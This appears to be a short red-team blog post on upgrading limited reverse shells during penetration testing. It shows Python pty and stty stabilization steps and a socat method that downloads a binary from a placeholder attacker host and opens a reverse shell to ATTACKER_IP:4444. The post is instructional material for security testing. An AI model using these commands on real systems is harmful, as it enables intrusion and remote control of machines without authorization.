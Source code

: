 ```yaml
---
layout: post
title: Shell Upgrade Techniques
date: 2025-04-10 17:40 +0300
categories: [Exploitation, Red Teaming]
---
```


## Introduction

During penetration testing, the initial shell you receive after exploitation is often limited in functionality (non-interactive). This document covers techniques to upgrade these basic shells to fully interactive TTYs and Meterpreter sessions for enhanced post-exploitation capabilities.

## Basic Shell Limitations

Initial reverse shells typically have limitations:
- No tab completion
- No command history
- No arrow key functionality
- Cannot use interactive commands (su, ssh, vim)
- Unstable (can break with Ctrl+C)
- Limited environment variables

## Upgrading Basic Shells to Interactive TTYs

### Python PTY Method

```bash
# Python 2.x
python -c 'import pty; pty.spawn("/bin/bash")'

# Python 3.x
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Then stabilize the shell
export TERM=xterm
# Press Ctrl+Z to background the shell
stty raw -echo; fg
# Press Enter twice
reset

# Optional: Adjust terminal size
stty rows 38 columns 116
```

### Using Socat

```bash
# On attacker machine - serve the socat binary if needed
python3 -m http.server 8000

# On target - download and use socat for a full TTY shell
wget http://ATTACKER_IP:8000/socat -O /tmp/socat
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444

# Attacker listener for socat
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

